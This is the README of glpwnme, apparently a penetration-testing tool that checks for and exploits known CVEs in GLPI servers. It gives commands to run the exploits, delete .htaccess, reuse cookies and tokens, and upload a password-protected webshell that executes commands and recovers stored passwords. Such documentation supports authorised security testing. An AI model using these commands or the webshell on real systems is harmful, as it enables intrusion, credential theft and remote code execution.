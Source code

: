 # Glpwnme
glpwnme is a tool used to check for vulnerabilities on running instance of glpi

## :sunny: Contribution
If you found a vulnerability on **GLPI** which is not implemented on **glpwnme**, do not hesitate to add it !

You can copy the file ```exploits/implementations/template.py``` and import it in ```exploits/implementations/__init__.py```.

## :wrench: Install
To **install** glpwnme you can use the following:
```bash
pipx install .
poetry install
```

With **pip**:
```bash
pip3 install .
python3 -m glpwnme
```

## :bomb: Vulnerabilities available

| Name                 | Score | Privileges | Vulnerable versions |
| --------             | ------- | ------- | ------- |
| CVE_2020_15175       | 7.4    | Unauthenticated | GLPI < 9.5.2 |
| CVE_2022_31061       | 7.4    | Unauthenticated | GLPI < 10.0.2 |
| CVE_2022_35914       | 10     | Unauthenticated | GLPI < 10.0.3 |
| PLUGIN_ORDER_2022    | 8.3     | Self-Service | GLPI Plugin Order < 2.10.1 |
| CVE_2023_41323       | 3      | Unauthenticated | GLPI < 10.0.10 |
| CVE_2023_41326       | 8.1    | Self-Service | GLPI < 10.0.10 |
| CVE_2024_27937       | 6.4    | Self-Service | GLPI < 10.0.13 |
| CVE_2024_29889       | 8.1    | Self-Service | GLPI < 10.0.15 |
| CVE_2024_37148       | 8.1    | Self-Service | GLPI < 10.0.16 |
| CVE_2024_37149       | 5.6    | Super-Admin | GLPI < 10.0.16 |
| CVE_2024_40638       | 8.1    | Self-Service | GLPI < 10.0.17 |
| Leakymetry           | 9.3    | Unauthenticated | GLPI < 10.0.17 |

Also, this tool checks for **default credentials** and is able to **upload php file** from a privileged user.

## 🧹 Clean
Exploits might have some consequences. You probably want to clean what the
exploit did. For this, do not forget to check the **log file** created by glpwnme.
```bash
cat log.glpwnme
```

Exploits may implement a ```clean``` method that allow you to clean the previous traces let by the exploit.
As for the run method you can add an argument.

```bash
# Clean the exploit traces
python3 glpwnme.py -t <target> -e <exploit_to_use> -O "option1=value1" "option2=value2" --clean
```

## :page_facing_up: List plugins
```bash
python3 glpwnme -t <target> --list-plugins
```

> __*Note*__ : Listing plugins might find additional vulnerabilities that the _'--check-all'_ would
> have not detected

## :pencil2: Usage example

```bash
python3 glpwnme.py -t https://test.glpi.com # List all of the available exploits
python3 glpwnme.py -t https://test.glpi.com --check-all # Run all the exploit (if version compatible) on the target that are opsec safe
python3 glpwnme.py -t https://test.glpi.com --check-all --no-opsec # Check all the exploits on the target
```

```bash
# Get the help for the exploit
python3 glpwnme.py -t https://test.glpi.com -e <exploit_to_use> --infos

# Run the exploit_to_use with the options for the run method
python3 glpwnme.py -t https://test.glpi.com -e <exploit_to_use> --run -O "option1=value1" "option2=value2"

# Do not forget to check your log for restoring the .htaccess and keep the api_key
cat log.glpwnme
```

## Example
### RCE on glpi < 9.5.2
```bash
python3 glpwnme -t <target> -e CVE_2020_15175 --run # delete .htaccess and recover an admin session
python3 glpwnme -t <target> -e PHP_UPLOAD -O file=webshell.php --run --cookie <cookie> --profile SuperAdmin # Login as admin with a cookie recovered before and upload a webshell.php on glpi

# Do not forget to check your log for restoring the .htaccess and keep the api_key
cat log.glpwnme
```

## Screenshots

![Vulnerabilities check](./images/glpwnme_check_all.png)

![Exploitation of CVE 2024 27937](./images/cve_2024_27937_example_glpwnme.png)

## Args details
```bash
# Login with creds
# Auth parameter is used to login with something else than the default (Glpi Internal database --> local-1, domaine.example.com --> ldap-1)
# recover it in the html DOM of the login page.
# Profile is used, if your user has different profiles (Technician and Read-only for instance, and you want to use the other)
python3 glpwnme.py -t <target> -u <username> -p <password> --auth <local-1|ldap-1|...> --profile <Super-Admin|Technician|...>

# Login with a cookie value
python3 glpwnme.py -t <target> --cookie <cookie>

# Login with an api token and recover the cookie
# The cookie is bound to the host:
#   - cookie for http://127.0.0.1 will not be valid for http://localhost
python3 glpwnme.py -t <target> --token <api_token> --dump-cookies # Will login with the api token and give you the cookie value

# Add custom header and go through burp
python3 glpwnme.py -t <target> -H "X-Forwarded-For: 127.0.0.1" "User-Agent: OrangeCyberdefense/1.1" --proxy http://127.0.0.1:8080

# Use an exploit for check
python3 glpwnme.py -t <target> -e <exploit_name> --check

# Use an exploit for run or clean, with parameter
python3 glpwnme.py -t <target> -e <exploit_name> <--run|--clean> -O 'key=value' 'key2=value'

# Get information about an exploit
python3 glpwnme.py -t <target> -e <exploit_name> --infos
```

## Webshell
On **GLPI** the passwords are encrypted with a random secret key. The way the key is handle has changed over the versions of GLPI.
Moreover the encrypted passwords are stored in the database. A provided file **_shell.php_** is here to help you get those
damn passwords easily. Just access it using the password *'?passwd=P@ssw0rd123'* and you will see the password in use. Add
the option *'?passwd=P@ssw0rd123&_hidden_cmd=whoami'*, and you will execute the ```whoami``` command on the server. This might give you enough flexibility to recover *important credentials* fastly, and achieve **rev shell** if needed.

## Improvements
GLPI Version is shown for logged in user, it would be great to add an observer / hook, that detect if we are logged in and if the version has been found. In this case, retrieve the version from the DOM.

Change the way plugins are enumerated, in order to prevent false positive when webroot is not accessible.

## Contributions
Thanks to the following person for their help:
* Aurelien In the Shallow
* Sebastien Le Corre

## FAQ
### I cannot connect with glpwnme ?
* Make sure the url specified does not contains too many info in the url:
  * https://glpi.client.com/glpi/front/helpdesk.php &rarr; will fail as '/front' is in the url
  * https://glpi.client.com/glpi/ &rarr; works
* Maybe the **--auth** is needed, check the source code of the login **html page** and recover it here
* If **SSO** or other mechanisms are setup to access the GLPI, then you will need to give **glpwnme** the cookie used. **In this case** you also need to use the **--no-init** option in order to prevent glpwnme to logout at the scan phase.

### The cookie given by the tool does not work ?
* **Cookies** in GLPI depends on the **hostname**, cookie changes between same instance but different Host:
  * http://127.0.0.1/index.php &rarr; Cookie _is valid_
  * http://localhost/index.php &rarr; Cookie _fails_
